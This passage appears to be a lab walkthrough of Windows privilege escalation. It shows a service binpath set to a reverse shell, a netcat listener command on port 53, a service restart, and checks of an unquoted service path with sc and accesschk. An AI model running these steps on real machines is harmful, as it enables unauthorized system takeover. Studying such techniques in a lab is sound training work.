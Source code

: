 ![sc.exeConfig](image-2.png)

set the binpath to our reverse shell

![shell](image-3.png)

setup our listner 
```bash
nc -lvnp 53
```

start the service

```bash
net start dacksvc
```

and we did it

## Unquoted Service Path

from winpeas, PowerView we can see there is unquoted service path

```bash
# Checking service Configuration
sc qc unquotedsvc
# using accesschk.exe to check our permission in folders
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\ "
# we have Permission to RW
```

![unquotedfolder](image-4.png)
